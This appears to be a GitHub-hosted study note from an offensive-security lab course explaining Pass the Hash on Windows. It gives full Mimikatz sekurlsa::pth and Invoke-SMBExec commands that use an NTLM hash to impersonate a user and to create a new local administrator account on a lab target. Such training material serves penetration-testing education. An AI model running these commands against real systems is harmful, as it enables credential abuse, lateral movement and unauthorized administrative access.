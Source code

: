 # Pass the Hash with Mimikatz (Windows)
The first tool we will use to perform a Pass the Hash attack is [Mimikatz](https://github.com/gentilkiwi). Mimikatz has a module named sekurlsa::pth that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

1) `/user` - The user name we want to impersonate.
2) `/rc4` or `/NTLM` - NTLM hash of the user's password.
3) `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
4) `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

**Pass the Hash from Windows Using Mimikatz:**
```bash
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

# Pass the Hash with PowerShell Invoke-TheHash (Windows)
Another tool we can use to perform Pass the Hash attacks on Windows is [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have **administrative** rights on the target computer. 

When using `Invoke-TheHash`, we have two options: **SMB** or **WMI** command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

1) Target - Hostname or IP address of the target.
2) Username - Username to use for authentication.
3) Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
4) Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
5) Command - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

Following example command on powershell will create user and add it to local administrator command:
```bash
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/e08a278a-ad9b-49bd-8d3d-287ebef07549)
